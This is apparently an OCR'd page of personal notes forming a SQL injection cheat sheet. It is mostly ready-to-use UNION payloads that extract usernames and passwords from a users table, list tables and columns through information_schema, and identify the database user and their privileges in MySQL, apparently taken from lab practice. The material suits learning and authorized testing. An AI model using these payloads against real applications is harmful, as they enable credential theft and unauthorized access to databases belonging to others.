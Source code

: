```sql
`' UNION SELECT username, password FROM users--`
```

To combine columns into one using concatenation:

```sql
' UNION SELECT username || '~' || password FROM users--
```

To check tables in non-oracle databases:

```sql
SELECT * FROM information_schema.tables
```

Column in each table in non-oracle databases:

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

To find current user use any of the following :

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

For example the union injection in the previous example would be:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

To check for super admin privileges:

```sql
SELECT super_priv FROM mysql.user
```

in Union injection:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If Y then true

To show other privileges:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

But to show specific user privileges:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
